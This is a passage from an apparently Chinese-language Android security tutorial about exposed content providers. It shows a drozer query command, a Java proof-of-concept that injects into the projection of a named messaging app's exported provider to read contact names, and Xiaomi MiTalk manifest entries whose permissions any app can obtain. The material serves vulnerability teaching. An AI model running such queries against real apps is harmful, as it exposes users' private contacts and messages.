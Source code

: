 drozer：
`run app.provider.query content://telephony/carriers/preferapn --vertical`

## 0x05 案例

### 案例1：直接暴露

```
private void getyouni() {

    int i = 0;

    ContentResolver contentresolver = getContentResolver();

    String[] projection = {"* from contacts--"};

    Uri uri = Uri.parse("content://com.snda.youni.providers.DataStructs/message_ex");

    Cursor cursor = contentresolver.query(uri, projection, null, null, null);

    String text = "";

    while (cursor.moveToNext())
    {

        text += cursor.getString(cursor.getColumnIndex("display_name")) + '\n';

    }

    Log.i("TEST", text);

} 
```

### 案例2：需权限访问

米聊多处content provider 暴露

```
<provider android:name=".providers.BuddyProvider" android:readPermission="com.xiaomi.channel.READ_BUDDY" android:writePermission="com.xiaomi.channel.WRITE_BUDDY" android:exported="true" android:authorities="com.xiaomi.channel.providers.BuddyProvider" /> 
```

首先权限声明如下:

```
<permission android:name="com.xiaomi.channel.READ_BUDDY" />

<permission android:name="com.xiaomi.channel.WRITE_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.READ_BUDDY" />

<uses-permission android:name="com.xiaomi.channel.WRITE_BUDDY" /> 
```
